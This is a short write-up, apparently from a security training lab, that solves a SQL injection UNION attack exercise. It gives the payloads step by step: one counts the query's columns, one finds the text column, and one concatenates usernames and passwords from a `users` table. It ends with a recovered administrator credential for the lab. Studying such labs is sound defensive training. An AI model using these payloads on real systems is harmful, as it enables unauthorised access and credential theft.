

# Lab: SQL injection UNION attack, retrieving multiple values in a single column.

- This lab contains a SQL injection vulnerability in the product category filter.
- The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.

# The database contains a different table called `users`, with columns called `username` and `password`.

# To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

# Use Burp Suite to intercept and modify the request that sets the product category filter.

# Determine the number of columns that are being returned by the query and which columns contain text data.

# check columns
```
' UNION SELECT NULL,NULL--
```
- there are two columns.

# check which column contain text
```
'UNION SELECT NULL,'def'--
or
'+UNION+SELECT+NULL,'abc'--
'UNION SELECT 'abc',NULL--
```
- Only one contains text.(first one)

## use this payload to reterive user name and password
```
'UNION SELECT NULL,username || '~' || password FROM users--
```


## use credentials of administrator to login
```
administrator~rx3ifqe7q1w4wjn8catk
```
## Lab solved

